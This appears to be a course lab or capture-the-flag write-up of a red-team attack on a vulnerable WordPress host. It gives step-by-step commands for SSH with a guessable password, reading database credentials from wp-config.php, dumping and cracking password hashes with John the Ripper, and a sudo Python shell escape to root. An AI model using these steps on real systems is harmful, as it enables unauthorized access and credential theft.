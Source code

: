 #
# **Red Team: Summary of Operations**

## **Table of Contents**

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### **Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:

$ nmap ... # nmap -sV 192.168.1.110

![](RackMultipart20220513-1-igqb1a_html_9da9c34b1e4321f4.png)

This scan identifies the services in the above screenshot as potential points of entry.

**Critical Vulnerabilites**

The following vulnerabilities were identified on target 1.

- Network Mapping (WordPress site)
  - Nmap was used to discover open ports.
- SSH access available to public
  - An easily guessable user password was used to gain ssh access. No ssh key was required.
- MySQL login stored in plaintext
  - The attackers were able to discover a file containing login information for the MySQL database stored in plaintext.
- Unsalted hashes
  - The attackers were able to gain access to usernames and unsalted hashes of those users passwords in MySQL. The attacker exfiltrated the unsalted hashes and cracked them using John the Ripper.
- Privilege Escalation
  - User Steven has sudo access for Python
    - The attackers leveraged this vulnerability to gain root access.

Below are the associated CVE entries on identified vulnerabilities.

- Target 1
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

-

### **Exploitation**

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

![](RackMultipart20220513-1-igqb1a_html_d4c733c59bd9ed1d.png)

![](RackMultipart20220513-1-igqb1a_html_c123c7da8965477f.png)

  - flag1.txt: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used:** ssh into Michael&#39;s account and look in the/var/www files
      - ssh michael@192.168.1.110
      - Password: michael
      - command: $ cd /var/www
      - command: $ ls
      - command: $ grep -RE flag html
        - Screenshot below is the output of the &quot;grep&quot; command.

![](RackMultipart20220513-1-igqb1a_html_2283abc7f8e77542.png)

  - flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - ssh&#39;d into Michael&#39;s account and looked in the /var/www files.

![](RackMultipart20220513-1-igqb1a_html_568a92c76f798552.png)

Flag 3 and 4

flag3.txt: flag3{afc01ab56b50591e7dccf93122770cd2}

flag4.txt: flag4.txt: flag4{715dea6c055b9fe3337544932f2941ce}

Exploits used

- As Michael found MySQL login information in the /var/www/html/wordpress/wp-config.php file.

![](RackMultipart20220513-1-igqb1a_html_af58720d345cf4d7.png)

- Used the credentials u: root p: R@v3nSecurity to login to MySQL
  - Command: mysql -u root -p
  - Password: R@v3nSecurity
- Command: show databases;
- Command: use wordpress;
- Command: show tables;
- Command: select \* from wp\_posts;

Found flags 3 and 4.

![](RackMultipart20220513-1-igqb1a_html_27687e2d556f953c.png)

Found hashed passwords for Michael and Steven in MySQL

Command: $ select \* from wp\_users;

![](RackMultipart20220513-1-igqb1a_html_7a58fe1557b5de0.png)

**Escalating to Root**

- Exfiltrated Steven&#39;s hashed password and cracked it using John the Ripper
  - Copied hash into a local file called wp\_hashes.txt
    - Command: $ john wp\_hashes.txt
- ![](RackMultipart20220513-1-igqb1a_html_e5e39951a42611e7.png)
- Steven password is pink84
- Ssh steven@192.168.1.110
  - Passwd: pink84
- Command: $ sudo -l
- ![](RackMultipart20220513-1-igqb1a_html_4a869b00a454f0f8.png)
- Steven has sudo privileges to use Python. We can [exploit this](https://rcenetsec.com/shell-spawning/)
- sudo python -c &#39;import pty;pty.spawn(&quot;/bin/bash&quot;)&#39;
- ![](RackMultipart20220513-1-igqb1a_html_ff148a0de0fc11fe.png)
- command: $ cd
- command: $ ls
- command: $ cat flag4.txt
- ![](RackMultipart20220513-1-igqb1a_html_663eb3d47f43bb9d.png)
